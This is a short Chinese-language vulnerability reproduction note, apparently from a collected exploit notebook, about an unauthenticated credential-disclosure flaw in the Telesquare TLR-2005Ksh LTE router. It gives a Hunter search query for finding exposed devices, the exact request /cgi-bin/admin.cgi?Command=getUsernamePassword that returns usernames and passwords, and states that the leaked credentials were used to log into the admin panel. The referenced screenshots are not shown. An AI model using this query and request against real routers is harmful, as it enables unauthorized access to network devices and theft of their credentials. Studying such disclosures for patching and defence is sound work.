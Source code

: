 # Telesquare TLR-2005Ksh 路由器 getUsernamePassword 信息泄露漏洞

# 一、漏洞简介
Telesquare Tlr-2005Ksh是韩国Telesquare公司的一款 Sk 电讯 Lte 路由器。Telesquare TLR-2005Ksh存在安全漏洞，攻击者可通过未授权getUsernamePassword获取用户名密码等敏感信息。

# 二、影响版本
+ Telesquare Tlr-2005Ksh

# 三、资产测绘
+ hunter`web.title="TLR-2005KSH"||banner="TLR-2005KSH login:"`
+ 特征

![1700496629079-11703d7f-49e5-4047-bb1c-b189cacaf8bb.png](./img/AwpEpB3xYB_xa3gz/1700496629079-11703d7f-49e5-4047-bb1c-b189cacaf8bb-310968.png)

# 四、漏洞复现
```plain
/cgi-bin/admin.cgi?Command=getUsernamePassword
```

![1700496653815-05ae5b82-3d65-4580-be00-b9fd1c8cee07.png](./img/AwpEpB3xYB_xa3gz/1700496653815-05ae5b82-3d65-4580-be00-b9fd1c8cee07-960383.png)

使用账户密码成果登录后台

![1700496675659-d3ed50e9-aec5-4f26-9e2e-ae504baf99f3.png](./img/AwpEpB3xYB_xa3gz/1700496675659-d3ed50e9-aec5-4f26-9e2e-ae504baf99f3-709363.png)



> 更新: 2024-02-29 23:57:12  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/awpgpcgce8hdzmr4>